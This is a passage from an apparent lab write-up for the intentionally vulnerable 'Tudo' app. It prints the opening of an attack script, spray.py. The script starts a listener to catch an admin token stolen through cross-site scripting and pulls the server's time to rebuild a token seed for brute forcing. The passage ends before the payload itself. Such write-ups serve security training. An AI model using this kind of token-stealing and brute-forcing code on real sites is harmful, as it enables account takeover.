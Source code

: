 Let's make a python listener to catch the admin token as a variable!

# Auto XSS

This script will get the admin token automatically, with the auto brute force

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-11-18-bmdyy-Tudo/2021-11-18-bmdyy-Tudo%2006:12:17.png)

spray.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Token Spray - Change password for an user - Get Admin Token
# bmdyy - Tudo

import argparse
import requests
import sys
import datetime
import time
import requests
import os
import subprocess
import socket
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler


'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# First, we must get the correct current time from the server, to avoid erros
def getCurrentTime(rhost):
    print("[+] Let's get the current time to make the seed !! [+]")
    url = 'http://' + rhost
    b = r.get(url, proxies=proxies)
    global currentTime
    currentTime = int((datetime.datetime.strptime(b.headers['date'], '%a, %d %b %Y %H:%M:%S %Z')  - datetime.datetime(1970,1,1)).total_seconds())
    return currentTime * 1000
    print("[+] Done! [+]")
```